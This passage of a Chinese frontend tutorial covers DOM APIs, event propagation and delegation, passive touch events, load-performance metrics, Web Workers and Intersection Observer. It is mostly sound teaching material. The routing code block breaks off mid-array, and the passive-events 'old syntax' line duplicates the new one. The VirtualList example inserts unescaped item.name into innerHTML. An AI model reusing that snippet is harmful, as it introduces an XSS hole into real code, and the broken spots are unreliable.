        console.log('视口尺寸变化：', viewport.width, viewport.height);
        updateLayout(viewport.width, viewport.height);
    });
    
    viewport.addEventListener('scroll', () => {
        console.log('视口滚动：', viewport.offsetLeft, viewport.offsetTop);
    });
}
```

### 移动端键盘弹出处理

```typescript
// 处理移动端虚拟键盘
class MobileKeyboardHandler {
    private initialViewportHeight: number;
    private isKeyboardOpen = false;
    private callbacks: ((isOpen: boolean) => void)[] = [];
    
    constructor() {
        this.initialViewportHeight = window.visualViewport?.height || window.innerHeight;
        this.setupListeners();
    }
    
    private setupListeners() {
        const viewport = window.visualViewport;
        if (!viewport) return;
        
        // 监听视口大小变化（键盘弹出/收起）
        viewport.addEventListener('resize', () => {
            const currentHeight = viewport.height;
            const heightDiff = this.initialViewportHeight - currentHeight;
            
            // 判断键盘是否打开（高度减少超过 150px）
            const wasKeyboardOpen = this.isKeyboardOpen;
            this.isKeyboardOpen = heightDiff > 150;
            
            if (wasKeyboardOpen !== this.isKeyboardOpen) {
                this.notifyCallbacks();
            }
        });
        
        // 备用方案：使用 focus/blur 事件
        document.addEventListener('focusin', (e) => {
            if (this.isInputElement(e.target as HTMLElement)) {
                // 等待键盘动画完成
                setTimeout(() => {
                    this.scrollToElement(e.target as HTMLElement);
                }, 300);
            }
        });
    }
    
    private isInputElement(element: HTMLElement): boolean {
        const tagName = element.tagName.toLowerCase();
        return (
            tagName === 'input' ||
            tagName === 'textarea' ||
            element.contentEditable === 'true'
        );
    }
    
    private scrollToElement(element: HTMLElement) {
        const rect = element.getBoundingClientRect();
        const viewport = window.visualViewport;
        
        if (!viewport) return;
        
        // 检查元素是否被键盘遮挡
        if (rect.bottom > viewport.height) {
            element.scrollIntoView({ behavior: 'smooth', block: 'center' });
        }
    }
    
    onKeyboardToggle(callback: (isOpen: boolean) => void) {
        this.callbacks.push(callback);
    }
    
    private notifyCallbacks() {
        this.callbacks.forEach(cb => cb(this.isKeyboardOpen));
    }
    
    get keyboardOpen(): boolean {
        return this.isKeyboardOpen;
    }
}

// 使用
const keyboardHandler = new MobileKeyboardHandler();
keyboardHandler.onKeyboardToggle((isOpen) => {
    const terminal = document.querySelector('.terminal-container');
    if (terminal) {
        terminal.classList.toggle('keyboard-open', isOpen);
    }
});
```

### 移动端适配方案对比



---

# 第四章：DOM 操作与事件

## 4.1 DOM 树结构

DOM（Document Object Model，文档对象模型）将 HTML 文档表示为树形结构，JavaScript 通过 DOM API 来操作页面。

### DOM 树的概念



### DOM 节点类型

| 节点类型 | nodeType | nodeName | 说明 |
|---------|----------|---------|------|
| 元素节点 | 1 | 标签名（大写） | `<div>`, `<p>` |
| 属性节点 | 2 | 属性名 | `class`, `id` |
| 文本节点 | 3 | `#text` | 文字内容 |
| 注释节点 | 8 | `#comment` | `<!-- 注释 -->` |
| 文档节点 | 9 | `#document` | document 对象 |
| 文档片段 | 11 | `#document-fragment` | DocumentFragment |

### 查询 DOM 元素

```javascript
// ===== 基础查询方法 =====

// 1. 通过 ID 查询（返回单个元素）
const header = document.getElementById('header');

// 2. 通过类名查询（返回 HTMLCollection - 实时更新）
const items = document.getElementsByClassName('item');

// 3. 通过标签名查询（返回 HTMLCollection - 实时更新）
const paragraphs = document.getElementsByTagName('p');

// 4. 通过 name 属性查询（返回 NodeList）
const radioButtons = document.getElementsByName('gender');

// ===== 现代查询方法（推荐） =====

// 5. querySelector - 返回第一个匹配的元素
const firstItem = document.querySelector('.item');
const submitBtn = document.querySelector('#form button[type="submit"]');

// 6. querySelectorAll - 返回所有匹配的元素（NodeList - 静态）
const allItems = document.querySelectorAll('.item');

// 7. 复杂选择器
const complex = document.querySelectorAll(
    '.container > .item:nth-child(2n+1):not(.disabled)'
);
```

### DOM 元素遍历

```javascript
// 获取一个元素
const element = document.querySelector('.container');

// ===== 亲属节点遍历 =====

// 父节点
element.parentNode;       // 父节点（可能是任意节点）
element.parentElement;    // 父元素（一定是元素节点）

// 子节点
element.childNodes;       // 所有子节点（包括文本、注释等）
element.children;         // 只有子元素（推荐）
element.firstChild;       // 第一个子节点
element.firstElementChild; // 第一个子元素（推荐）
element.lastChild;        // 最后一个子节点
element.lastElementChild; // 最后一个子元素（推荐）

// 兄弟节点
element.previousSibling;       // 前一个兄弟节点
element.previousElementSibling; // 前一个兄弟元素（推荐）
element.nextSibling;           // 后一个兄弟节点
element.nextElementSibling;    // 后一个兄弟元素（推荐）

// ===== 遍历子元素 =====

// 方法1：for...of（推荐）
for (const child of element.children) {
    console.log(child.tagName, child.textContent);
}

// 方法2：forEach（NodeList 支持）
element.querySelectorAll('.item').forEach((item, index) => {
    console.log(index, item.textContent);
});

// 方法3：Array.from
Array.from(element.children).map(child => child.textContent);
```

### DOM 节点操作

```javascript
const container = document.querySelector('.container');

// ===== 创建节点 =====

// 1. 创建元素
const newDiv = document.createElement('div');
newDiv.className = 'card';
newDiv.textContent = '新卡片';

// 2. 创建文本节点
const textNode = document.createTextNode('这是文字');

// 3. 创建文档片段（批量插入优化）
const fragment = document.createDocumentFragment();
for (let i = 0; i < 100; i++) {
    const li = document.createElement('li');
    li.textContent = `Item ${i}`;
    fragment.appendChild(li);
}
// 一次性插入，只触发一次重排
container.appendChild(fragment);

// 4. 使用 innerHTML（注意 XSS 风险）
container.innerHTML = '<p>新的内容</p>';

// 5. 使用 insertAdjacentHTML
container.insertAdjacentHTML('beforeend', '<p>追加的内容</p>');

// ===== 插入节点 =====

// appendChild - 追加到最后
container.appendChild(newDiv);

// insertBefore - 插入到指定元素之前
const referenceNode = container.querySelector('.existing');
container.insertBefore(newDiv, referenceNode);

// 新方法（更灵活）
container.append(newDiv, textNode);      // 可追加多个节点和字符串
container.prepend(newDiv);               // 插入到开头
referenceNode.before(newDiv);            // 插入到前面
referenceNode.after(newDiv);             // 插入到后面

// ===== 删除节点 =====

container.removeChild(newDiv);   // 传统方式
newDiv.remove();                 // 现代方式（推荐）

// ===== 替换节点 =====

container.replaceChild(newDiv, referenceNode);  // 传统方式
referenceNode.replaceWith(newDiv);               // 现代方式

// ===== 克隆节点 =====

const clone = newDiv.cloneNode(false);  // 浅克隆（只克隆元素本身）
const deepClone = newDiv.cloneNode(true); // 深克隆（包含子节点）
```

### DOM 操作性能优化

```javascript
// ❌ 不好的做法：频繁操作 DOM
function badRender(items) {
    const list = document.getElementById('list');
    
    for (const item of items) {
        const li = document.createElement('li');
        li.textContent = item.name;
        list.appendChild(li);  // 每次都触发重排！
    }
}

// ✅ 好的做法：使用 DocumentFragment
function goodRender(items) {
    const list = document.getElementById('list');
    const fragment = document.createDocumentFragment();
    
    for (const item of items) {
        const li = document.createElement('li');
        li.textContent = item.name;
        fragment.appendChild(li);  // 不触发重排
    }
    
    list.appendChild(fragment);  // 只触发一次重排
}

// ✅ 更好的做法：使用 innerHTML（适合大量静态内容）
function betterRender(items) {
    const list = document.getElementById('list');
    
    list.innerHTML = items
        .map(item => `<li>${escapeHtml(item.name)}</li>`)
        .join('');
}

// ✅ 最好的做法：使用虚拟列表（大量数据时）
// 只渲染可见区域的元素
class VirtualList {
    private container: HTMLElement;
    private itemHeight: number;
    private items: any[];
    private visibleCount: number;
    
    constructor(container: HTMLElement, items: any[], itemHeight: number) {
        this.container = container;
        this.items = items;
        this.itemHeight = itemHeight;
        this.visibleCount = Math.ceil(container.clientHeight / itemHeight) + 2;
        
        this.container.style.overflow = 'auto';
        this.container.addEventListener('scroll', () => this.render());
        this.render();
    }
    
    private render() {
        const scrollTop = this.container.scrollTop;
        const startIndex = Math.floor(scrollTop / this.itemHeight);
        const endIndex = Math.min(startIndex + this.visibleCount, this.items.length);
        
        // 设置总高度（创建滚动条）
        const totalHeight = this.items.length * this.itemHeight;
        
        // 只渲染可见部分
        const visibleItems = this.items.slice(startIndex, endIndex);
        
        this.container.innerHTML = `
            <div style="height: ${totalHeight}px; position: relative;">
                ${visibleItems.map((item, i) => `
                    <div style="
                        position: absolute;
                        top: ${(startIndex + i) * this.itemHeight}px;
                        height: ${this.itemHeight}px;
                        width: 100%;
                    ">${item.name}</div>
                `).join('')}
            </div>
        `;
    }
}
```

## 4.2 事件冒泡与捕获

### 事件传播的三个阶段

```mermaid
graph LR
    subgraph "事件传播三阶段"
        A[1. 捕获阶段<br>Capture] --> B[2. 目标阶段<br>Target] --> C[3. 冒泡阶段<br>Bubble]
    end
    
    A1[document] -.-> A2[html] -.-> A3[body] -.-> A4[div] -.-> A5[p - 目标]
    A5 -.-> C5[p - 目标] -.-> C4[div] -.-> C3[body] -.-> C2[html] -.-> C1[document]
    
    style A fill:#e74c3c,color:#fff
    style B fill:#f39c12,color:#fff
    style C fill:#3498db,color:#fff
```

### 捕获 vs 冒泡

```html
<div id="outer" style="padding: 20px; background: #3498db;">
    <div id="inner" style="padding: 20px; background: #e74c3c;">
        <button id="btn">点击我</button>
    </div>
</div>
```

```javascript
const outer = document.getElementById('outer');
const inner = document.getElementById('inner');
const btn = document.getElementById('btn');

// 冒泡阶段（默认）
outer.addEventListener('click', () => console.log('outer 冒泡'));
inner.addEventListener('click', () => console.log('inner 冒泡'));
btn.addEventListener('click', () => console.log('btn 冒泡'));

// 捕获阶段（第三个参数为 true）
outer.addEventListener('click', () => console.log('outer 捕获'), true);
inner.addEventListener('click', () => console.log('inner 捕获'), true);
btn.addEventListener('click', () => console.log('btn 捕获'), true);

// 点击按钮的输出顺序：
// 1. outer 捕获
// 2. inner 捕获
// 3. btn 捕获
// 4. btn 冒泡
// 5. inner 冒泡
// 6. outer 冒泡
```

### 阻止事件传播

```javascript
// 阻止冒泡
btn.addEventListener('click', (event) => {
    event.stopPropagation();  // 阻止事件继续传播
    console.log('只在按钮处理');
});

// 阻止捕获和冒泡
btn.addEventListener('click', (event) => {
    event.stopImmediatePropagation();  // 阻止同一元素上的其他处理器
    console.log('只执行这一个处理器');
});

// 阻止默认行为
link.addEventListener('click', (event) => {
    event.preventDefault();  // 阻止链接跳转
    console.log('自定义处理');
});

form.addEventListener('submit', (event) => {
    event.preventDefault();  // 阻止表单提交
    console.log('自定义提交逻辑');
});
```

### 事件传播流程图

```mermaid
flowchart TD
    A[用户点击按钮] --> B[事件对象创建]
    B --> C{从 document 开始}
    C --> D[捕获阶段：向下传播]
    D --> E{到达目标元素？}
    E -->|否| F[触发捕获阶段监听器]
    F --> D
    E -->|是| G[目标阶段：触发所有监听器]
    G --> H{stopPropagation?}
    H -->|是| I[事件传播结束]
    H -->|否| J[冒泡阶段：向上传播]
    J --> K{到达 document？}
    K -->|否| L[触发冒泡阶段监听器]
    L --> K
    K -->|是| I
```

## 4.3 事件委托

事件委托利用事件冒泡机制，将子元素的事件处理委托给父元素。

### 事件委托的优势

```mermaid
graph TD
    A[事件委托] --> B[减少内存占用]
    A --> C[动态元素自动绑定]
    A --> D[代码更简洁]
    A --> E[性能更好]
    
    B --> B1["100个按钮 = 1个处理器<br>而非100个处理器"]
    C --> C1["新添加的子元素<br>自动拥有事件处理"]
    D --> D1["一处绑定，处处生效"]
    E --> E1["减少事件监听器数量"]
```

### 事件委托实现

```javascript
// ❌ 不好的做法：给每个按钮绑定事件
function badApproach() {
    const buttons = document.querySelectorAll('.action-btn');
    buttons.forEach(btn => {
        btn.addEventListener('click', (e) => {
            const action = e.target.dataset.action;
            handleAction(action);
        });
    });
    
    // 问题：新添加的按钮不会自动绑定！
}

// ✅ 好的做法：事件委托
function goodApproach() {
    const container = document.querySelector('.button-container');
    
    container.addEventListener('click', (e) => {
        // 使用 closest() 找到最近的匹配元素
        const btn = e.target.closest('.action-btn');
        if (!btn) return;  // 点击的不是按钮
        
        const action = btn.dataset.action;
        handleAction(action);
    });
    
    // 优点：新添加的按钮自动拥有事件处理！
}

// 更通用的事件委托工具
function delegate(
    parent: HTMLElement | Document,
    selector: string,
    eventType: string,
    handler: (event: Event, matchedElement: HTMLElement) => void
) {
    parent.addEventListener(eventType, (event) => {
        const target = event.target as HTMLElement;
        const matchedElement = target.closest(selector);
        
        // 确保匹配元素是 parent 的后代
        if (matchedElement && parent.contains(matchedElement)) {
            handler(event, matchedElement as HTMLElement);
        }
    });
}

// 使用
delegate(document.body, '.action-btn', 'click', (e, btn) => {
    console.log('点击了：', btn.dataset.action);
});

delegate(document.body, '.delete-btn', 'click', (e, btn) => {
    const id = btn.dataset.id;
    if (confirm('确定删除？')) {
        deleteItem(id);
    }
});
```

### 项目中的事件委托应用

```typescript
// 终端命令历史列表
class CommandHistory {
    private container: HTMLElement;
    private commands: string[] = [];
    
    constructor(container: HTMLElement) {
        this.container = container;
        this.setupEventDelegation();
    }
    
    private setupEventDelegation() {
        // 整个列表只需一个事件处理器
        this.container.addEventListener('click', (e) => {
            const target = e.target as HTMLElement;
            
            // 复制命令
            const copyBtn = target.closest('.copy-btn');
            if (copyBtn) {
                const command = copyBtn.closest('.history-item')?.querySelector('.command')?.textContent;
                if (command) {
                    navigator.clipboard.writeText(command);
                    this.showToast('已复制');
                }
                return;
            }
            
            // 重新执行命令
            const rerunBtn = target.closest('.rerun-btn');
            if (rerunBtn) {
                const command = rerunBtn.closest('.history-item')?.querySelector('.command')?.textContent;
                if (command) {
                    this.executeCommand(command);
                }
                return;
            }
            
            // 收藏命令
            const starBtn = target.closest('.star-btn');
            if (starBtn) {
                starBtn.classList.toggle('starred');
                const id = (starBtn.closest('.history-item') as HTMLElement)?.dataset.id;
                this.toggleStar(id);
                return;
            }
            
            // 点击命令本身（选择并执行）
            const item = target.closest('.history-item');
            if (item) {
                const command = item.querySelector('.command')?.textContent;
                if (command) {
                    this.executeCommand(command);
                }
            }
        });
        
        // 键盘导航
        this.container.addEventListener('keydown', (e) => {
            if (e.key === 'Enter') {
                const focused = document.activeElement?.closest('.history-item');
                if (focused) {
                    const command = focused.querySelector('.command')?.textContent;
                    if (command) this.executeCommand(command);
                }
            }
        });
    }
    
    render(commands: string[]) {
        this.commands = commands;
        this.container.innerHTML = commands.map((cmd, i) => `
            <div class="history-item" data-id="${i}" tabindex="0">
                <span class="command">${escapeHtml(cmd)}</span>
                <div class="actions">
                    <button class="copy-btn" title="复制">📋</button>
                    <button class="rerun-btn" title="重新执行">▶️</button>
                    <button class="star-btn" title="收藏">⭐</button>
                </div>
            </div>
        `).join('');
    }
    
    private executeCommand(command: string) {
        // 发送到终端
        console.log('执行命令：', command);
    }
    
    private toggleStar(id: string) {
        console.log('切换收藏：', id);
    }
    
    private showToast(message: string) {
        console.log(message);
    }
}
```

## 4.4 Passive Events

Passive Events 是一种优化触摸/滚动事件性能的机制。

### 什么是 Passive Events？

```mermaid
sequenceDiagram
    participant User as 用户触摸
    participant Browser as 浏览器
    participant JS as JavaScript
    
    Note over Browser,JS: 普通事件监听
    User->>Browser: 触摸开始
    Browser->>JS: touchstart 事件
    Note over Browser: 等待 JS 是否调用 preventDefault()...
    JS-->>Browser: 没有调用（白等了）
    Browser->>Browser: 开始滚动
    
    Note over Browser,JS: Passive 事件监听
    User->>Browser: 触摸开始
    Browser->>JS: touchstart 事件
    Browser->>Browser: 立即开始滚动（不等待）
    JS-->>Browser: 处理事件（不能调用 preventDefault）
```

### 使用 Passive Events

```javascript
// 基础用法
element.addEventListener('touchstart', handler, { passive: true });

// 等价于（旧写法）
element.addEventListener('touchstart', handler, { passive: true });

// Chrome 默认将以下事件设为 passive：
// - document 上的 touchstart
// - document 上的 touchmove
// - window 上的 wheel
// - window 上的 mousewheel

// 强制非 passive（需要调用 preventDefault）
element.addEventListener('touchmove', (e) => {
    e.preventDefault();  // 需要阻止默认滚动行为
}, { passive: false });
```

### Passive Events 实战

```typescript
// 项目中的触摸手势处理
class TouchGestureHandler {
    private element: HTMLElement;
    private startX = 0;
    private startY = 0;
    private startTime = 0;
    
    constructor(element: HTMLElement) {
        this.element = element;
        this.setupListeners();
    }
    
    private setupListeners() {
        // passive: true 提升滚动性能
        this.element.addEventListener('touchstart', 
            this.onTouchStart.bind(this), 
            { passive: true }
        );
        
        this.element.addEventListener('touchmove', 
            this.onTouchMove.bind(this), 
            { passive: true }  // 不阻止默认滚动
        );
        
        this.element.addEventListener('touchend', 
            this.onTouchEnd.bind(this), 
            { passive: true }
        );
    }
    
    private onTouchStart(e: TouchEvent) {
        const touch = e.touches[0];
        this.startX = touch.clientX;
        this.startY = touch.clientY;
        this.startTime = Date.now();
    }
    
    private onTouchMove(e: TouchEvent) {
        const touch = e.touches[0];
        const deltaX = touch.clientX - this.startX;
        const deltaY = touch.clientY - this.startY;
        
        // 检测滑动方向
        if (Math.abs(deltaX) > Math.abs(deltaY)) {
            // 水平滑动
            this.onHorizontalSwipe?.(deltaX);
        }
    }
    
    private onTouchEnd(e: TouchEvent) {
        const touch = e.changedTouches[0];
        const deltaX = touch.clientX - this.startX;
        const deltaY = touch.clientY - this.startY;
        const deltaTime = Date.now() - this.startTime;
        
        // 判断是否为快速滑动
        const velocity = Math.abs(deltaX) / deltaTime;
        
        if (velocity > 0.5 && Math.abs(deltaX) > 50) {
            if (deltaX > 0) {
                this.onSwipeRight?.();
            } else {
                this.onSwipeLeft?.();
            }
        }
    }
    
    onHorizontalSwipe?: (deltaX: number) => void;
    onSwipeLeft?: () => void;
    onSwipeRight?: () => void;
}

// 某些场景需要阻止默认行为
function setupPullToRefresh(container: HTMLElement) {
    let startY = 0;
    let isPulling = false;
    
    container.addEventListener('touchstart', (e) => {
        if (container.scrollTop === 0) {
            startY = e.touches[0].clientY;
            isPulling = true;
        }
    }, { passive: true });
    
    container.addEventListener('touchmove', (e) => {
        if (!isPulling) return;
        
        const deltaY = e.touches[0].clientY - startY;
        
        if (deltaY > 0 && container.scrollTop === 0) {
            // 需要阻止默认行为来实现下拉刷新
            e.preventDefault();
            showPullToRefreshUI(deltaY);
        }
    }, { passive: false });  // ← 必须设为 false 才能调用 preventDefault
}
```

### Passive Events 选择指南

```mermaid
flowchart TD
    A[需要监听触摸/滚轮事件？] --> B{需要调用<br>preventDefault?}
    
    B -->|是| C["passive: false"]
    C --> C1["下拉刷新"]
    C --> C2["自定义滚动"]
    C --> C3["阻止缩放"]
    
    B -->|否| D["passive: true ✅"]
    D --> D1["追踪触摸位置"]
    D --> D2["手势识别"]
    D --> D3["滚动动画"]
    D --> D4["无限滚动"]
    
    D --> E[浏览器可以优化滚动性能]
```

---

# 第五章：Web 性能优化

## 5.1 首屏加载优化

### 性能指标

```mermaid
graph LR
    A[页面加载时间线] --> B[TTFB]
    B --> C[FCP]
    C --> D[LCP]
    D --> D1[FID]
    D --> E[TTI]
    E --> F[CLS]
    
    B --> B1["Time to First Byte<br>服务器响应时间"]
    C --> C1["First Contentful Paint<br>首次内容绘制"]
    D --> D1["Largest Contentful Paint<br>最大内容绘制"]
    D1 --> D2["First Input Delay<br>首次输入延迟"]
    E --> E1["Time to Interactive<br>可交互时间"]
    F --> F1["Cumulative Layout Shift<br>累计布局偏移"]
```

| 指标 | 含义 | 良好值 | 需改进 | 差 |
|------|------|--------|--------|-----|
| TTFB | 服务器响应时间 | < 800ms | 800-1800ms | > 1800ms |
| FCP | 首次内容绘制 | < 1.8s | 1.8-3s | > 3s |
| LCP | 最大内容绘制 | < 2.5s | 2.5-4s | > 4s |
| FID | 首次输入延迟 | < 100ms | 100-300ms | > 300ms |
| TTI | 可交互时间 | < 3.8s | 3.8-7.3s | > 7.3s |
| CLS | 累计布局偏移 | < 0.1 | 0.1-0.25 | > 0.25 |

### 首屏加载优化策略

```typescript
// 1. 资源预加载
// <link rel="preload"> 告诉浏览器提前加载关键资源
document.head.innerHTML += `
    <!-- 预加载关键 CSS -->
    <link rel="preload" href="/css/critical.css" as="style">
    
    <!-- 预加载关键字体 -->
    <link rel="preload" href="/fonts/inter.woff2" as="font" type="font/woff2" crossorigin>
    
    <!-- 预加载关键图片 -->
    <link rel="preload" href="/images/hero.webp" as="image">
    
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="//api.example.com">
    
    <!-- 预连接 -->
    <link rel="preconnect" href="https://api.example.com">
`;

// 2. 关键 CSS 内联
// 将首屏需要的 CSS 直接写在 <head> 中
const criticalCSS = `
    body { margin: 0; font-family: system-ui; }
    .header { height: 64px; background: #1e1e1e; }
    .loading { display: flex; align-items: center; justify-content: center; height: 100vh; }
`;

// 3. 异步加载非关键 CSS
function loadCSS(href: string) {
    const link = document.createElement('link');
    link.rel = 'stylesheet';
    link.href = href;
    link.media = 'print';  // 先以 print 加载（不阻塞渲染）
    link.onload = () => { link.media = 'all'; };  // 加载完后切换
    document.head.appendChild(link);
}

// 4. 路由级代码分割（Vue Router）
const routes = [
    {
        path: '/',
        component: () => import('./views/Home.vue'),  // 懒加载
    },
    {
        path: '/terminal',
        component: () => import('./views/Terminal.vue'),
    },
    {
        path: '/settings',
        component: () => import('./views/Settings.vue'),
    },
];

// 5. 图片懒加载
function setupLazyLoading() {
    const observer = new IntersectionObserver((entries) => {
        entries.forEach(entry => {
            if (entry.isIntersecting) {
                const img = entry.target as HTMLImageElement;
                img.src = img.dataset.src!;
                img.classList.add('loaded');
                observer.unobserve(img);
            }
        });
    }, {
        rootMargin: '200px',  // 提前 200px 开始加载
    });
    
    document.querySelectorAll('img[data-src]').forEach(img => {
        observer.observe(img);
    });
}
```

### 首屏加载优化流程

```mermaid
flowchart TD
    A[用户访问页面] --> B[浏览器解析 HTML]
    B --> C{资源加载策略}
    
    C --> D[关键 CSS 内联]
    C --> E[关键 JS 异步加载]
    C --> F[图片懒加载]
    C --> G[字体预加载]
    
    D --> H[首次内容绘制 FCP]
    E --> H
    F --> H
    G --> H
    
    H --> I[骨架屏显示]
    I --> J[API 数据加载]
    J --> K[页面内容渲染]
    K --> L[最大内容绘制 LCP]
    L --> M[页面可交互 TTI]
    
    M --> N{用户操作}
    N --> O[交互响应 < 100ms]
    O --> P[FID 达标]
```

## 5.2 代码分割与懒加载

### 代码分割策略

```mermaid
graph TD
    A[代码分割策略] --> B[路由级分割]
    A --> C[组件级分割]
    A --> D[库分割]
    A --> E[动态导入]
    
    B --> B1["每个页面一个 chunk"]
    C --> C1["弹窗、大型组件按需加载"]
    D --> D1["vue, react 等单独打包"]
    E --> E1["运行时按需加载模块"]
```

### Webpack / Vite 代码分割

```typescript
// 1. 路由级分割（Vue Router）
import { createRouter, createWebHistory } from 'vue-router';

const router = createRouter({
    history: createWebHistory(),
    routes: [
        {
            path: '/',
            // 动态导入 = 自动代码分割
            component: () => import(/* webpackChunkName: "home" */ './views/Home.vue'),
        },
        {
            path: '/terminal',
            component: () => import(/* webpackChunkName: "terminal" */ './views/Terminal.vue'),
---

# 补充章节：浏览器渲染流程

> 📖 本节详解浏览器从接收 HTML 到渲染像素的完整流程，帮你理解 Web 性能优化的基础。

## 渲染流水线

```mermaid
graph LR
    A["HTML"] --> B["DOM 树"]
    C["CSS"] --> D["CSSOM 树"]
    B --> E["渲染树<br/>Render Tree"]
    D --> E
    E --> F["布局<br/>Layout"]
    F --> G["绘制<br/>Paint"]
    G --> H["合成<br/>Composite"]
    H --> I["屏幕像素"]

    style A fill:#4CAF50,color:#fff
    style C fill:#2196F3,color:#fff
    style I fill:#FF9800,color:#fff
```

### 各阶段详解

| 阶段 | 输入 | 输出 | 耗时 |
|------|------|------|------|
| **解析 HTML** | HTML 文本 | DOM 树 | 中 |
| **解析 CSS** | CSS 文本 | CSSOM 树 | 中 |
| **构建渲染树** | DOM + CSSOM | 渲染树（不含 display:none） | 低 |
| **布局** | 渲染树 | 每个元素的几何信息（位置+尺寸） | 高 |
| **绘制** | 布局信息 | 绘制指令（像素） | 高 |
| **合成** | 绘制指令 | 最终图像 | 中 |

### 关键渲染路径（Critical Rendering Path）

```mermaid
graph TD
    A["首次加载"] --> B["解析 HTML"]
    B --> C["遇到 <link rel=stylesheet>"]
    C --> D["阻塞渲染<br/>（CSS 是渲染阻塞资源）"]
    D --> E["CSSOM 构建完成"]
    E --> F["渲染树构建"]
    F --> G["首次布局+绘制"]

    B --> H["遇到 <script>"]
    H --> I["阻塞解析<br/>（JS 是解析阻塞资源）"]
    I --> J["下载+执行 JS"]
    J --> B

    style D fill:#f44336,color:#fff
    style I fill:#FF9800,color:#fff
    style G fill:#4CAF50,color:#fff
```

**性能优化启示：**
- CSS 放在 `<head>` 中（尽早加载，减少渲染阻塞时间）
- JS 放在 `</body>` 前或使用 `defer`/`async`
- 关键 CSS 内联到 HTML 中（减少阻塞请求）

---

# 补充章节：Web Worker 详解

> 📖 本节详解 Web Worker 的使用场景和实现原理，帮你理解如何在浏览器中执行多线程任务。

## 为什么需要 Web Worker？

JavaScript 是单线程的——一个长耗时的计算会阻塞 UI 渲染，导致页面卡顿。

```mermaid
sequenceDiagram
    participant UI as 🖥️ 主线程
    participant W as ⚙️ Web Worker

    Note over UI: === 无 Worker ===
    UI->>UI: 执行耗时计算（5秒）
    Note over UI: ❌ UI 卡顿 5 秒！

    Note over UI,W: === 有 Worker ===
    UI->>W: 发送数据，启动计算
    Note over UI: ✅ UI 继续响应
    W->>W: 执行耗时计算（5秒）
    W->>UI: 返回结果
    UI->>UI: 更新 UI
```

## Worker 类型对比

| 类型 | 用途 | 生命周期 | 共享 |
|------|------|---------|------|
| **Dedicated Worker** | 单个页面的后台计算 | 页面关闭即销毁 | 不共享 |
| **Shared Worker** | 多个页面共享 | 独立于页面 | 多页面共享 |
| **Service Worker** | 网络请求拦截、离线缓存 | 独立于页面 | 所有页面共享 |

## Worker 的限制

- ❌ 不能访问 DOM（`document`、`window`）
- ❌ 不能访问主线程的变量
- ✅ 可以使用 `fetch`、`WebSocket`、`IndexedDB`
- ✅ 可以使用 `postMessage` 与主线程通信

```typescript
// 主线程
const worker = new Worker('calc.js')
worker.postMessage({ data: largeArray })
worker.onmessage = (e) => {
  console.log('结果:', e.data)
}

// Worker 线程 (calc.js)
self.onmessage = (e) => {
  const result = heavyComputation(e.data)
  self.postMessage(result)
}
```

---

# 补充章节：Intersection Observer

> 📖 本节详解 Intersection Observer API，帮你理解懒加载和无限滚动的实现原理。

## 传统方案 vs Intersection Observer

```mermaid
graph TD
    subgraph "传统方案：scroll 事件"
        S1["监听 scroll 事件"] --> S2["每次滚动都触发"]
        S2 --> S3["计算元素位置"]
        S3 --> S4["⚠️ 性能差：每秒触发几十次"]
    end

    subgraph "Intersection Observer"
        IO1["创建 Observer"] --> IO2["浏览器自动监测"]
        IO2 --> IO3["元素进入/离开视口时回调"]
        IO3 --> IO4["✅ 性能好：异步批量回调"]
    end

    style S4 fill:#f44336,color:#fff
    style IO4 fill:#4CAF50,color:#fff
```

## 懒加载实现

```typescript
// 图片懒加载
const observer = new IntersectionObserver((entries) => {
  entries.forEach(entry => {
    if (entry.isIntersecting) {
      const img = entry.target as HTMLImageElement
      img.src = img.dataset.src!  // 用 data-src 替换 src
      observer.unobserve(img)     // 停止观察
    }
  })
}, {
  rootMargin: '200px',  // 提前 200px 开始加载
  threshold: 0.1         // 元素 10% 可见时触发
})

// 观察所有懒加载图片
document.querySelectorAll('img[data-src]').forEach(img => {
  observer.observe(img)
})
```

---

# 补充章节：CSS 动画与性能

> 📖 本节详解 CSS 动画的实现方式和性能优化。

## 动画实现方式对比

| 方式 | 性能 | 控制力 | 兼容性 |
|------|------|--------|--------|
| `transition` | 优 | 低（只能两个状态） | 全部 |
| `@keyframes animation` | 优 | 中（可定义关键帧） | 全部 |
| `requestAnimationFrame` | 良 | 高（完全控制） | 全部 |
| `setTimeout/setInterval` | 差 | 高 | 全部 |

## GPU 加速

```mermaid
graph LR
